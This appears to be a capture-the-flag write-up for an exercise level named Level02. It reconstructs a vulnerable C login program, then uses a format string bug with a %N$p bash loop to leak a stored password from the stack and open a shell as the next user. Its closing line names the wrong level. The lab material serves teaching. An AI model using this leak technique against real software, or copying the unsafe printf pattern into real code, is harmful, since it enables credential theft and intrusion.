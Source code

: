 # Level02

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector -z execstack -z norelro source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv)
{
    FILE *file; // -0x8(%rbp)
    int len; // -0xc(%rbp)
    char username[100] = { 0 }; // -0x70(%rbp)
    char flag[41] = { 0 }; // -0xa0(%rbp)
    char password[100] = { 0 }; // -0x110(%rbp)

    file = 0;
    len = 0;

    file = fopen("/home/users/level03/.pass", "r");
    if (file == 0)
    {
        fwrite("ERROR: failed to open password file\n", 1, 36, stderr);
        exit(1);
    }

    len = fread(flag, 1, 41, file);
    flag[strcspn(flag, "\n")] = 0;
    if (len != 41)
    {
        fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
        fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
        exit(1);
    }

    fclose(file);

    puts("===== [ Secure Access System v1.0 ] =====");
    puts("/***************************************\\");
    puts("| You must login to access this system. |");
    puts("\\**************************************/");

    printf("--[ Username: ");
    fgets(username, 100, stdin);
    username[strcspn(username, "\n")] = 0;

    printf("--[ Password: ");
    fgets(password, 100, stdin);
    password[strcspn(password, "\n")] = 0;

    puts("*****************************************");

    if (strncmp(flag, password, 41) == 0)
    {
        printf("Greetings, %s!\n", username);
        system("/bin/sh");
        return 0;
    }

    printf(username);
    puts(" does not have access!");
    exit(1);
}
```

Let's focus on the `main` function. It reads input using the `fgets` function, which is known to be safe due to its mechanism to limit the number of bytes read. However, the `printf` function is known to be unsafe when user input is passed as the format argument, it's referred to as a format string vulnerability.
> You can read more about format string vulnerabilities [here](https://owasp.org/www-community/attacks/Format_string_attack).

We notice from the C code that the password is read from a file and stored in the `flag` variable. The `strncmp` function is used to compare the `flag` and `password` variables. If the comparison is successful, the program will execute `/bin/sh`. Since the `flag` variable is stored on the stack, we can use a format string vulnerability to read its value.

To locate our variable on the stack, we'll use this simple bash script:
```bash
for i in {1..42};
    do echo $i %$i\$p | ./level02 | grep does;
done
```
Which will print the stack values for the first 42 arguments. We can then convert the hexadecimal values to ASCII and reverse them to get the password.
```bash
level02@OverRide:~$ for i in {1..42};     do echo $i %$i\$p | ./level02 | grep does; done
[...]
22 0x756e505234376848 does not have access!
23 0x45414a3561733951 does not have access!
24 0x377a7143574e6758 does not have access!
25 0x354a35686e475873 does not have access!
26 0x48336750664b394d does not have access!
[...]
```

We appear to have found the password, let's convert it to ASCII:
```
0x756e505234376848 -> Hh74RPnu
0x45414a3561733951 -> Q9sa5JAE
0x377a7143574e6758 -> XgNWCqz7
0x354a35686e475873 -> sXGnh5J5
0x48336750664b394d -> M9KfPg3H

Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

Let's try to log in with the password we found:
```bash
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: assxios
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, assxios!
$ whoami
level03
$ cat /home/users/level03/.pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

We are now level04! Let's move on to the next level.

